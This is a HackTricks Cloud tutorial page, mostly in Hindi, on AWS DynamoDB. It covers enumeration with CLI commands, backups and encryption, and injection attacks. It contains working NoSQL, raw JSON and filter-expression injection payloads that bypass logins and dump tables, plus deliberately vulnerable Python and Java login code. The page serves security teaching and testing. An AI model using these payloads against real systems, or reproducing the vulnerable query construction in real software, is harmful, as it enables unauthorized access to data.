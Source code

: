 # AWS - DynamoDB Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## DynamoDB

### Basic Information

Amazon DynamoDB को AWS द्वारा **पूर्ण रूप से प्रबंधित, सर्वर रहित, की-मान NoSQL डेटाबेस** के रूप में प्रस्तुत किया गया है, जो उच्च प्रदर्शन वाले अनुप्रयोगों को शक्ति प्रदान करने के लिए तैयार किया गया है, चाहे उनका आकार कोई भी हो। यह सेवा मजबूत सुविधाओं की गारंटी देती है, जिसमें अंतर्निहित सुरक्षा उपाय, निरंतर बैकअप, कई क्षेत्रों में स्वचालित प्रतिकृति, एकीकृत इन-मेमोरी कैशिंग, और सुविधाजनक डेटा निर्यात उपयोगिताएँ शामिल हैं।

DynamoDB के संदर्भ में, पारंपरिक डेटाबेस स्थापित करने के बजाय, **तालिकाएँ बनाई जाती हैं**। प्रत्येक तालिका को **तालिका की प्राथमिक कुंजी** के एक अभिन्न घटक के रूप में **पार्टीशन कुंजी** का निर्दिष्ट करना अनिवार्य है। यह पार्टीशन कुंजी, जो मूल रूप से एक **हैश मान** है, वस्तुओं की पुनर्प्राप्ति और विभिन्न होस्टों के बीच डेटा के वितरण में महत्वपूर्ण भूमिका निभाती है। यह वितरण डेटाबेस की स्केलेबिलिटी और उपलब्धता बनाए रखने के लिए महत्वपूर्ण है। इसके अतिरिक्त, डेटा संगठन को और अधिक परिष्कृत करने के लिए **सॉर्ट कुंजी** को शामिल करने का विकल्प भी है।

### Encryption

डिफ़ॉल्ट रूप से, DynamoDB एक KMS कुंजी का उपयोग करता है जो **Amazon DynamoDB की है,** न कि AWS द्वारा प्रबंधित कुंजी जो कम से कम आपके खाते की है।

<figure><img src="https://lh4.googleusercontent.com/JjtNS7aA-_GRMgZb4v93jWEQJi6DQdUPq0FEpzZPdeyCeNoG05p0NJiV9Zs-ULs_-Tfjmx0W1ZgsE2Ui2ljo7D-1a87Xny-gpLVQO0XmXdFoph9ci1RepbVNwaCe9oPruEZSEDxGTxF5dIv6pW1WpT6kWA=s2048" alt=""><figcaption></figcaption></figure>

### Backups & Export to S3

**तालिका बैकअप** के निर्माण को **अनुसूचित** करना या **मांग पर** बनाना संभव है। इसके अलावा, एक तालिका के लिए **पॉइंट-इन-टाइम रिकवरी (PITR)** सक्षम करना भी संभव है। पॉइंट-इन-टाइम रिकवरी आपके DynamoDB डेटा के निरंतर **बैकअप** प्रदान करती है **35 दिनों** के लिए, ताकि आप आकस्मिक लेखन या हटाने के संचालन से सुरक्षा कर सकें।

**S3** में **एक तालिका के डेटा का निर्यात** करना भी संभव है, लेकिन तालिका को **PITR सक्षम** होना चाहिए।

### GUI

स्थानीय Dynamo सेवाओं के लिए एक GUI है जैसे [DynamoDB Local](https://aws.amazon.com/blogs/aws/dynamodb-local-for-desktop-development/), [dynalite](https://github.com/mhart/dynalite), [localstack](https://github.com/localstack/localstack), आदि, जो उपयोगी हो सकते हैं: [https://github.com/aaronshaf/dynamodb-admin](https://github.com/aaronshaf/dynamodb-admin)

### Enumeration
```bash
# Tables
aws dynamodb list-tables
aws dynamodb describe-table --table-name <t_name> #Get metadata info
## The primary key and sort key will appear inside the KeySchema field

#Check if point in time recovery is enabled
aws dynamodb describe-continuous-backups \
--table-name tablename

# Backups
aws dynamodb list-backups
aws dynamodb describe-backup --backup-arn <arn>
aws dynamodb describe-continuous-backups --table-name <t_name>

# Global tables
aws dynamodb list-global-tables
aws dynamodb describe-global-table --global-table-name <name>

# Exports
aws dynamodb list-exports
aws dynamodb describe-export --export-arn <arn>

# Misc
aws dynamodb describe-endpoints #Dynamodb endpoints
```
### अनधिकृत पहुँच

{% content-ref url="../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md" %}
[aws-dynamodb-unauthenticated-access.md](../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md)
{% endcontent-ref %}

### प्रिवेस्क

{% content-ref url="../aws-privilege-escalation/aws-dynamodb-privesc.md" %}
[aws-dynamodb-privesc.md](../aws-privilege-escalation/aws-dynamodb-privesc.md)
{% endcontent-ref %}

### पोस्ट एक्सप्लोइटेशन

{% content-ref url="../aws-post-exploitation/aws-dynamodb-post-exploitation.md" %}
[aws-dynamodb-post-exploitation.md](../aws-post-exploitation/aws-dynamodb-post-exploitation.md)
{% endcontent-ref %}

### स्थिरता

{% content-ref url="../aws-persistence/aws-dynamodb-persistence.md" %}
[aws-dynamodb-persistence.md](../aws-persistence/aws-dynamodb-persistence.md)
{% endcontent-ref %}

## DynamoDB इंजेक्शन

### SQL इंजेक्शन

DynamoDB डेटा तक पहुँचने के लिए **SQL सिंटैक्स** के साथ तरीके हैं, इसलिए, सामान्य **SQL इंजेक्शन भी संभव हैं**।

{% embed url="https://book.hacktricks.xyz/pentesting-web/sql-injection" %}

### NoSQL इंजेक्शन

DynamoDB में विभिन्न **शर्तें** डेटा प्राप्त करने के लिए उपयोग की जा सकती हैं, जैसे कि एक सामान्य NoSQL इंजेक्शन में यदि डेटा प्राप्त करने के लिए **अधिक शर्तों को जोड़ना संभव है** तो आप छिपा हुआ डेटा प्राप्त कर सकते हैं (या पूरी तालिका को डंप कर सकते हैं)।\
आप यहाँ DynamoDB द्वारा समर्थित शर्तें पा सकते हैं: [https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API\_Condition.html](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Condition.html)

ध्यान दें कि **विभिन्न शर्तें** समर्थित हैं यदि डेटा **`query`** के माध्यम से या **`scan`** के माध्यम से पहुँचाया जा रहा है।

{% hint style="info" %}
वास्तव में, **Query** क्रियाओं को काम करने के लिए **प्राथमिक** कुंजी में **शर्त "EQ" (बराबर)** निर्दिष्ट करने की आवश्यकता होती है, जिससे यह **NoSQL इंजेक्शन के लिए कम संवेदनशील** हो जाता है (और ऑपरेशन को बहुत सीमित भी बनाता है)।
{% endhint %}

यदि आप **तुलना** को बदल सकते हैं या नई जोड़ सकते हैं, तो आप अधिक डेटा प्राप्त कर सकते हैं।
```bash
# Comparators to dump the database
"NE": "a123" #Get everything that doesn't equal "a123"
"NOT_CONTAINS": "a123" #What you think
"GT": " " #All strings are greater than a space
```
{% embed url="https://book.hacktricks.xyz/pentesting-web/nosql-injection" %}

### कच्चा Json इंजेक्शन

{% hint style="danger" %}
**यह भेद्यता dynamodb Scan Filter पर आधारित है जो अब अप्रचलित है!**
{% endhint %}

**DynamoDB** **Json** ऑब्जेक्ट्स को DB के अंदर डेटा खोजने के लिए स्वीकार करता है। यदि आप पाते हैं कि आप खोज के लिए भेजे गए json ऑब्जेक्ट में लिख सकते हैं, तो आप DB का डंप बना सकते हैं, सभी सामग्री।

उदाहरण के लिए, एक अनुरोध में इंजेक्ट करना जैसे:

{% code overflow="wrap" %}
```bash
'{"Id": {"ComparisonOperator": "EQ","AttributeValueList": [{"N": "' + user_input + '"}]}}'
```
{% endcode %}

एक हमलावर कुछ इस तरह इंजेक्ट कर सकता है:

`1000"}],"ComparisonOperator": "GT","AttributeValueList": [{"N": "0`

"EQ" स्थिति को ठीक करें जो ID 1000 के लिए खोज कर रहा है और फिर सभी डेटा के लिए देख रहा है जिनका Id स्ट्रिंग 0 से बड़ा है, जो कि सभी है।

एक **कमजोर उदाहरण लॉगिन का** हो सकता है:
```python
scan_filter = """{
"username": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
},
"password": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
}
}
""" % (user_data['username'], user_data['password'])

dynamodb.scan(TableName="table-name", ScanFilter=json.loads(scan_filter))
```
यह निम्नलिखित के प्रति संवेदनशील होगा:
```
username: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
password: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
```
### :property Injection

कुछ SDKs एक स्ट्रिंग का उपयोग करने की अनुमति देते हैं जो प्रदर्शन किए जाने वाले फ़िल्टरिंग को इंगित करती है जैसे: 

{% code overflow="wrap" %}
```java
new ScanSpec().withProjectionExpression("UserName").withFilterExpression(user_input+" = :username and Password = :password").withValueMap(valueMap)
```
{% endcode %}

आपको यह जानना आवश्यक है कि DynamoDB में **फिल्टर एक्सप्रेशंस** में **वस्तुओं** को स्कैन करते समय एक विशेषता **मान** को **बदलने** के लिए, टोकन को **`:`** वर्ण से **शुरू** होना चाहिए। ऐसे टोकन को वास्तविक **विशेषता मान को रनटाइम पर** **बदला** जाएगा।

इसलिए, पिछले जैसे एक लॉगिन को इस तरह से बायपास किया जा सकता है:
```bash
:username = :username or :username
# This will generate the query:
# :username = :username or :username = :username and Password = :password
# which is always true
```
{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **हमारा अनुसरण करें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रिपोजिटरी में PRs सबमिट करें।

</details>
{% endhint %}
